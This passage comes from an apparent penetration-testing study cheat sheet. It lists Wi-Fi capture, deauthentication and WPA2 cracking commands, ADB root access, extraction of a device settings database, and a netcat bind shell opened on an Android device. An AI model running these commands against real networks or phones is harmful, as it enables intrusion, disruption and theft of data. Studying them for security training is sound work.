 ```
airodump-ng wlan0mon
```

```
aireplay-ng --deauth 10 -a AP:MAC wlan0mon
```

```
aircrack-ng -a2 -w rockyou.txt capture-01.cap
```

**[Back to top](#top)**
___

## Module 17: Hacking Mobile Platforms

### ADB (Android Debug Bridge) Essentials

#### Basic enumeration

```
adb devices -l                # List connected devices
```

```
adb shell pm list packages    # List all installed packages
```

```
adb shell dumpsys battery     # Check battery info (physical device check)
```

  

### Privilege escalation

```
adb root                      # Restart adbd with root permissions
```

```
adb remount                   # Remount /system as writable
```

```
adb pull /data/data/com.android.providers.settings/databases/settings.db  # Extract sensitive configs
```

### Reverse shell

```
adb shell "nc -lvp 4444 -e /system/bin/sh"  # Set up listener on device
```

### Mobile Exploitation Frameworks

Using Drozer (Android)
